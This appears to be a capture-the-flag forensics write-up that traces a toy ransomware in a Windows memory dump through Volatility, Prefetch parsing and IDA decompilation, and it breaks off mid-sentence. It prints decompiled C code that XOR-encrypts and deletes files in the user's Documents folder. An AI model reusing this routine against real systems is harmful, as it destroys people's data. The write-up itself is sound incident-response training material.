# PF-ING #

## 1. Analysis ##
* **Given:** A `.rar` file named `dist.rar`, password to unrar: `k.eii_1s_just_a_cut3_l1ttl3_b1rb`.
* **Description:** 
  * believe me, its just an intro to DFIR about ransom cases!
  * Note: This challenge doesn't have any questions but the flag itself!
  * Flag format SNI{...}

## 2. Investigation ##
* First, I used the given password to unzip the `dist.rar`, inside is another `dump.rar`, unzip `dump.rar` again without the password I got the artifact named `dump.dmp` - a memory RAM dump:



* With this memory dump, of course this challenge likely need to utilize **Volatility**, in this case I personally used Volatility 3

* The challenge's name partially gives out a big hint - using `Prefetch`, but let's run volatility with some basic plugin first:

```bash
vol -f dump.dmp windows.cmdline
```




```bash
vol -f dump.dmp windows.cmdscan
```



```bash
vol -f dump.dmp windows.psscan
```





* I also ran `netscan` as well as `pstree` but it didn't help me much. However, `filescan` gives me some interesting files:
 
 

* I spotted several suspicious `<number>.dll` name, so I tried to use offset to extract all of those `.dll`:




* There were 7 total files with a similar name pattern, from `1.dll` to `8.dll`, but `5.dll` was missing.. After extracting, I ran command `file *` to see if there's any new information in these dll:



* They were all fake DLL files, this makes these files more and more suspicious, I also ran `strings -f *` however I got nothing helpful. I was stuck here a bit then I tried to follow the big hint given in the first place - `prefetch`.
  
* But let's list my process here first: After those efforts analyzing the mem dump by basic plugins, I only acknowledged these information:
  * User name: Doli
  * No network connection directly revealed the flag or the malware behavior
  * There are some suspicious `.dll` 
  * psscan seems legitimate since there's no malicious or masquerading process, but if prefetch dont work out we need to analyze this plugin deeper.

* Now let's dive into **Prefetch:** - a Windows feature used to speed up application startup. When an executable is run, Windows may create a `.pf` file under `C:\Windows\Prefetch\` to record execution artifacts. 

* A Prefetch file can contain:
  - The executed program name.
  - Run count.
  - Last execution time and previous run times.
  - Files and modules accessed by the program.
  - Related volume, directory, and file references.

* I used `filescan` combine with `grep` to identify all `.pf` in the mem dump:



* Apparently, there are several prefetch appear. However, `EDGE.EXE-B52DDC4D.pf` was prioritized because the executable name looked like masquerading (instead of `msedge.exe`) and was less expected than common Windows components. The `CMD.EXE-4A81B364.pf` and `NOTEPAD.EXE-D8414F97.pf` are also worth considering since they might provide helpful information, but I focused on the `edge.exe` initially. 

* Best way to examine these artifacts is using `PECmd` developed by `Eric Zimmerman` [here](https://ericzimmerman.github.io/). This tool will automatically parse `.pf` file to readable information for human. Now let's extract these goldmines to our machine to investigate:





* As you can see, in `File referenced`, there are all `<number>.dll` files I found in previous steps, moreover there's a file named `flag.txt`, this proves that `edge.exe` certainly accessed these `.dll`, which makes this `edge.exe` more and more suspicious.

* So my next step was to extract this program to analyze it:



* I also dropped the malware to `VirusTotal` to see if it could be identified exactly, but it didn't go well:



* However, while statically analyze the malware using `strings`, I saw this line talking about some encryption, xorkey like this:



* At this point I used `IDA` to analyze the file deeper. Opened the file in IDA, I hunted the suspicious string in the above picture. After few minutes, I found it appear in `sub_7FF6571B1830()`:



```c
int sub_7FF6571B1830()
{
  unsigned int v1; // eax
  CHAR FileName[272]; // [rsp+30h] [rbp-50h] BYREF
  struct _WIN32_FIND_DATAA FindFileData; // [rsp+140h] [rbp+C0h] BYREF
  char v4[272]; // [rsp+280h] [rbp+200h] BYREF
  char v5[272]; // [rsp+390h] [rbp+310h] BYREF
  CHAR Str[272]; // [rsp+4A0h] [rbp+420h] BYREF
  CHAR pszPath[271]; // [rsp+5B0h] [rbp+530h] BYREF
  unsigned __int8 v8; // [rsp+6BFh] [rbp+63Fh]
  HANDLE hFindFile; // [rsp+6C0h] [rbp+640h]
  int v10; // [rsp+6CCh] [rbp+64Ch]

  hFindFile = (HANDLE)-1LL;
  v10 = 0;
  SHGetFolderPathA(0, 5, 0, 0, pszPath);
  SHGetFolderPathA(0, 28, 0, 0, Str);
  strcat(Str, "\\Temp");
  sub_7FF6571B17E4(Str);
  sub_7FF6571B1591(FileName, 260, "%s\\*", pszPath);
  hFindFile = FindFirstFileA(FileName, &FindFileData);
  if ( hFindFile == (HANDLE)-1LL )
    return sub_7FF6571B1540("Error finding files in Documents\n");
  v1 = sub_7FF6571B15DB(0);
  srand(v1);
  do
  {
    if ( (FindFileData.dwFileAttributes & 0x10) == 0 )
    {
      sub_7FF6571B1591(v5, 260, "%s\\%s", pszPath, FindFileData.cFileName);
      sub_7FF6571B1591(v4, 260, "%s\\%d.dll", Str, ++v10);
      v8 = sub_7FF6571B1652(v5, v4);
      if ( v8 )
      {
        sub_7FF6571B1540("Encrypted %s -> %s with XOR key: 0x%02x\n", FindFileData.cFileName, v4, v8);
        if ( remove(v5) )
          perror("Error deleting original file");
        else
          sub_7FF6571B1540("Deleted original file: %s\n", v5);
      }
      else
      {
        sub_7FF6571B1540("Failed to encrypt file: %s\n", FindFileData.cFileName);
      }
    }
  }
  while ( FindNextFileA(hFindFile, &FindFileData) );
  return FindClose(hFindFile);
}
```

* I was lucky enough to have some knowledge about C lang so I could quickly understand logic of this function:
  * Uses `SHGetFolderPathA` to get `C:\Users\Doli\Documents` and `C:\Users\Doli\AppData\Local` paths:
    * Second argument in [SHGetFolderPathA](https://learn.microsoft.com/en-us/windows/win32/api/shlobj_core/nf-shlobj_core-shgetfolderpatha) refers to [CSIDL](https://learn.microsoft.com/en-us/windows/win32/shell/csidl)
    * In this case, CSIDL 5 corresponds to `CSIDL_PERSONAL` (`FOLDERID_Documents`), while CSIDL 28 (0x1c) corresponds to `CSIDL_LOCAL_APPDATA` (FOLDERID_LocalAppData)
  * Redirects to `C:\Users\Doli\AppData\Local\Temp` by using `strcat()`
  * Uses a while loop to check through all files in `Documents\*`, with each file:
    * Takes its name, after xoring, saves output file to `C:\Users\Doli\AppData\Local\Temp` with name format: `<counter>.dll`
    * Deletes the original file

* We can also see result of `sub_7FF6571B1652` is assigned to variable **v8** before getting checked and print the message `Encrypted %s -> %s with XOR key: 0x%02x\n`, so `sub_7FF6571B1652` is xor function:

```c
__int64 __fastcall sub_7FF6571B1652(const char *a1, const char *a2)
{
  FILE *v3; // [rsp+28h] [rbp-28h]
  unsigned __int8 v4; // [rsp+37h] [rbp-19h]
  void *Buffer; // [rsp+38h] [rbp-18h]
  int v6; // [rsp+44h] [rbp-Ch]
  FILE *Stream; // [rsp+48h] [rbp-8h]

  Stream = fopen(a1, "rb");
  if ( Stream )
  {
    fseek(Stream, 0, 2);
    v6 = ftell(Stream);
    rewind(Stream);
    Buffer = malloc(v6);
    if ( Buffer )
    {
      fread(Buffer, 1u, v6, Stream);
      fclose(Stream);
      v4 = rand() % 256;
      sub_7FF6571B15FA(Buffer, v6, v4);
      v3 = fopen(a2, "wb");
      if ( v3 )
      {
        fwrite(Buffer, 1u, v6, v3);
        fclose(v3);
        free(Buffer);
        return v4;
      }
      else
      {
        perror("Error opening destination file");
        free(Buffer);
        return 0;
      }
    }
    else
    {
      fclose(Stream);
      perror("Memory allocation error");
      return 0;
    }
  }
  else
  {
    perror("Error opening source file");
    return 0;
  }
}
```

* The key line is `v4 = rand() % 256;`, the function generates a random number and caculates its modulo 256, so **v4** - the xor key only ranges from 0 to 255, which means it's easy to bruteforce the xor key to decrypt all `.dll` back to their original files. I also knew that this malware accessed original files right before creating encrypted files, so with the output of `PECmd`, I could map the `dll` files to check their original magic bytes using CyberChef: 

```bash
# mapping
"1.dll": "055665242ec4617f8168f04958ff7b6f.jpg",
"2.dll": "450444469_429856146707886_776743093633115962_n.png",
"3.dll": "978-3-319-25512-5_5.pdf",
"4.dll": "flag.txt",
"6.dll": "my-beloved-wife.jpg",
"7.dll": "pcap_hanasuru.png",
"8.dll": "twibbon.png",
```



* So xor_key of `1.dll` is `0xb0`, after xoring and rendering the image I got:
 
